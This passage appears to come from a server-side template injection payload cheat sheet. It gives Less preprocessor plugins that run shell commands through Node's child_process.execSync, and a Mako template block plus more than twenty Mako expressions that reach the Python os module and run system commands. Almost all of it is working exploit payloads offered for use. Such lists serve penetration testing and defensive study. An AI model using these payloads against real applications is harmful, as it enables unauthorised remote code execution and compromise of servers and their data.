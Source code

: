 version 2 example RCE plugin:

```javascript
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```
version 3 and above example RCE plugin

```javascript
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

---

## Mako

[Official website](https://www.makotemplates.org/)
> Mako is a template library written in Python. Conceptually, Mako is an embedded Python (i.e. Python Server Page) language, which refines the familiar ideas of componentized layout and inheritance to produce one of the most straightforward and flexible models available, while also maintaining close ties to Python calling and scoping semantics.

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Direct access to os from TemplateNamespace:

Any of these payloads allows direct access to the `os` module

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
```